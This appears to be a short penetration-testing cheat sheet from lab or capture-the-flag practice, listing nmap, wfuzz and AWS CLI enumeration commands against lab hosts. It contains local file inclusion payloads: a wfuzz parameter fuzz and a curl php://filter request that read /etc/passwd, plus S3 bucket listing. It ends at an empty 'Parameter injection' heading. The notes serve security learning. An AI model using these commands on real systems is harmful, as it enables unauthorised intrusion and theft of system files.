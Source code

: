 ```s
```

**Optional**
Use dns proxy to have wildcards on et/hosts (*.pol.com)
https://github.com/hubdotcom/marlon-tools/blob/master/tools/dnsproxy/dnsproxy.py
## nmap
**fast enum:**
```s
nmap --script http-enum -p80 10.129.95.187
```
## wfuzz
**Enum filename:**
```s
wfuzz -c --hc 404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.10/FUZZ.php
```
**Testing php parameter for LFI:**
```s
wfuzz -c --hw=0 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt "http://10.10.10.10/login.php?FUZZ=/etc/passwd"
```
***Decode Payload***
```s
curl -s -X GET "http://10.10.10.10/login.php?login=php://filter/convert.base64-encode/resource=/etc/passwd" | base64 -d; echo
```
#### Curl investigate service
![image](https://user-images.githubusercontent.com/19478700/227300117-5b7729d2-89fa-4e3d-a173-3eddd182b8f7.png)

## Online tools
whatweb
whappalizer

# Web Exploitation

#AWS Amazon S3
```s
aws configure
```
We can list all of the S3 buckets hosted by the server by using the ls command.
```s
aws --endpoint=http://s3.thetoppers.htb s3 ls
```
We can also use the ls command to list objects and common prefixes under the specified bucket.
```s
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```
## Parameter injection
